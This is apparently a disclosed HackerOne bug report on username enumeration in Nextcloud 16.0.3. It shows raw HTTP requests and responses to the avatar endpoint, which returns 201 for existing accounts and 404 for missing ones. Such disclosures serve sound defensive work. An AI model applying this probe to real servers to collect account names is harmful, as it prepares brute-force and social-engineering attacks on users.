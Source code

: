# Username Enumeration

## Report Details
- **Report ID**: 667613
- **URL**: https://hackerone.com/reports/667613
- **State**: Closed
- **Severity**: low
- **Submitted**: 2019-08-05T13:42:42.335Z
- **Disclosed**: 2019-11-11T15:27:40.538Z

## Reporter
- **Username**: ahpaleus
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nextcloud

## Vulnerability Information
Hi, it is possible to determine the existence of a user account. It reveals username which can open new attack vectors.

Version: Nextcloud 16.0.3

Request for *existing* account:
```
GET /avatar/admin/80?v=-472 HTTP/1.1
Host: localhost:8084
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: image/webp,*/*
Accept-Language: pl,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
```

Response:
```
HTTP/1.1 201 Created
Date: Mon, 05 Aug 2019 12:43:11 GMT
Server: Apache/2.4.25 (Debian)
X-Powered-By: PHP/7.3.7
Set-Cookie: oce1t377r5iz=b19f9e53305ed1b27e1cf8e3a247208c; path=/; HttpOnly
Expires: Mon, 05 Aug 2019 13:13:11 +0000
Cache-Control: max-age=1800, must-revalidate
Pragma: public
Set-Cookie: oc_sessionPassphrase=TBaKNScbSUHcFfqtUUSk9opsYsCC5CjhTXspeP35sujzHmmyVisl7GQpQ6Yngg%2FwEUrD3aLUwgxdKqn9sUnwVRXtXwE9QsYom3iCnncIHDpRSOELfutM%2FhobasmvfxpJ; path=/; HttpOnly
Content-Security-Policy: default-src 'none';base-uri 'none';manifest-src 'self';script-src 'nonce-Q3FHKzg2MytoV0pEZnZ0VVBidUplSW53RG1ISXpIUmQvNW82ZnhBN1Izdz06YmU3d3c4R3d5UlVxVVpNblIvYkFOZWZEUVFyeHFqZ01wZmxSQno5Q0tCQT0=';style-src 'self' 'unsafe-inline';img-src 'self' data: blob:;font-src 'self' data:;connect-src 'self';media-src 'self';frame-ancestors 'self';worker-src 'self' blob:
X-Frame-Options: SAMEORIGIN
X-XSS-Protection: 1; mode=block
X-Content-Type-Options: nosniff
X-Robots-Tag: none
X-Download-Options: noopen
X-Permitted-Cross-Domain-Policies: none
Referrer-Policy: no-referrer
Set-Cookie: nc_sameSiteCookielax=true; path=/; httponly;expires=Fri, 31-Dec-2100 23:59:59 GMT; SameSite=lax
Set-Cookie: nc_sameSiteCookiestrict=true; path=/; httponly;expires=Fri, 31-Dec-2100 23:59:59 GMT; SameSite=strict
Last-Modified: Mon, 05 Aug 2019 12:42:57 +0000
ETag: "a684d35e3573baabbab61c6decb7ca27"
Content-Disposition: inline; filename="avatar.80.png"
Content-Length: 1036
Connection: close
Content-Type: image/png

PNG
(...)
```


Request for *non-existent* account:
```
GET /avatar/admin1/80?v=-472 HTTP/1.1
Host: localhost:8084
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: image/webp,*/*
Accept-Language: pl,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
```

Response:
```
HTTP/1.1 404 Not Found
Date: Mon, 05 Aug 2019 13:29:45 GMT
Server: Apache/2.4.25 (Debian)
X-Powered-By: PHP/7.3.7
Set-Cookie: oce1t377r5iz=cda3160542ce283068e73ed16542d5ab; path=/; HttpOnly
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-cache, no-store, must-revalidate
Pragma: no-cache
Set-Cookie: oc_sessionPassphrase=DI98NE8f%2BG9wkqaUyWpumnB8VYIWb%2BD2qFyDIOz0xiBvryxhwcI6IEmHFDLCpdOYbOZWLuHu5tnYzPGi1I6XS8%2FJv2dyJTanfFrWouSlMGZKpex8gy78Hgg7r%2B02ZDHi; path=/; HttpOnly
Content-Security-Policy: default-src 'none';base-uri 'none';manifest-src 'self';script-src 'nonce-cXJJUWhCc25YRHBXV3ZHTThkMVFVZU5IMVdXd2NVbVM0cE1ucXlWUHpCcz06MFBwSzgxSmhEVnRrYlpubXNLUUVLSUVNNVZmVVAzL2RzdndUM1VFN2kzST0=';style-src 'self' 'unsafe-inline';img-src 'self' data: blob:;font-src 'self' data:;connect-src 'self';media-src 'self';frame-ancestors 'self';worker-src 'self' blob:
X-Frame-Options: SAMEORIGIN
X-XSS-Protection: 1; mode=block
X-Content-Type-Options: nosniff
X-Robots-Tag: none
X-Download-Options: noopen
X-Permitted-Cross-Domain-Policies: none
Referrer-Policy: no-referrer
Set-Cookie: nc_sameSiteCookielax=true; path=/; httponly;expires=Fri, 31-Dec-2100 23:59:59 GMT; SameSite=lax
Set-Cookie: nc_sameSiteCookiestrict=true; path=/; httponly;expires=Fri, 31-Dec-2100 23:59:59 GMT; SameSite=strict
Content-Length: 0
Connection: close
Content-Type: text/html; charset=UTF-8
```

## Impact

Information disclosure which opens new attack vectors - helpful for injections/brute-force attacks/social-engineering etc.

## Attachments
No attachments
